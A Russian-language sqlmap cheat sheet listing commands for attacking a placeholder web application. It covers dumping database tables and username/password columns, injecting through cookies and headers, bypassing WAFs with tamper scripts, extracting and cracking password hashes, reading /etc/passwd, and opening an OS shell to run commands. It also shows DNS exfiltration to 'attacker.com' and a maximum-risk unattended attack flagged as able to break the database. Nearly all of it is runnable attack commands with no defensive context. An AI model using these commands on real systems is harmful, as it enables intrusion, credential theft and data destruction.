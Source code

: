 Определение базы данных:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump



GET-параметры
> ```bash
> sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
> ```bash
> sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
> ```bash
> sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
> ```bash
> sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"









Определение типа инъекции
sqlmap -u "http://example.com/index.php?id=1" --technique=U
Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.

Обход WAF (Web Application Firewall)
sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.

Определение уровня привилегий
sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
sqlmap -u "http://example.com/index.php?id=1" --users

Получение хешей паролей
sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
sqlmap -u "http://example.com/index.php?id=1" --crack

Обход защиты (если есть WAF)
sqlmap -u "http://example.com/index.php?id=1" --random-agent --tamper=space2comment

Автоматическое определение всех уязвимых параметров
sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
Ищет SQL-инъекции во всех найденных формах на сайте

Поиск файлов на сервере
sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch

--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
